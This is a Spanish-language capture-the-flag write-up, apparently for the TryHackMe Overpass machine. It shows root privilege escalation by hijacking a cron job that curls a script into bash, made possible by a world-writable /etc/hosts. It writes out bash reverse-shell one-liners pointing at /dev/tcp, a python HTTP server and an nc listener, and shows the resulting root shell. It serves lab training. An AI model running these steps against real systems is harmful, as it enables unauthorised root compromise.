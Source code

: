 De aquí podemos sacar que hay un proceso automatizado por lo que abro /etc/crontab y nos muestra: 

```bash
james@overpass-prod:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

Podemos observar que cada minuto se ejecuta un script en bash.

Si tenemos permisos de escritura en /etc/host podemos realizar la reverse shell, lo comprobamos:

```bash
james@overpass-prod:~$ ls -la /etc/hosts
-rw-rw-rw- 1 root root 250 Jun 27  2020 /etc/hosts
```

Tenemos permisos. Modificamos la IP de overpass.thm en /etc/hosts poniendo nuestra IP

Desde nuestro equipo, creamos la misma estructura de directorios y en el archivo buildscript.sh añadimos la bash reverse shell con nuestra IP y el puerto deseado.

Es decir, creamos /downloads/src/ y dentro el archivo .sh

En mi caso he usado la de <a href="https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet">Pentest Monkey</a>:

> bash -i >& /dev/tcp/10.8.33.229/4444 0>&1

También podríamos haber usado la de <a href="https://gtfobins.github.io/gtfobins/bash/#reverse-shell">GTFOBins</a>:

> bash -c 'exec bash -i &>/dev/tcp/$RHOST/$RPORT <&1'

Ejecutamos un servidor local mediante:

> python3 -m http.server 80

Nos ponemos en escucha desde el puerto que hemos indicado y esperamos menos de un minuto (que es lo que tarda en ejecutarse la tarea crontab desde la máquina víctima)

```bash
❯ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.8.33.229] from (UNKNOWN) [10.10.189.162] 58330
bash: cannot set terminal process group (3567): Inappropriate ioctl for device
bash: no job control in this shell
root@overpass-prod:~# ls
ls
buildStatus
builds
go
root.txt
src
root@overpass-prod:~# cat root.txt
```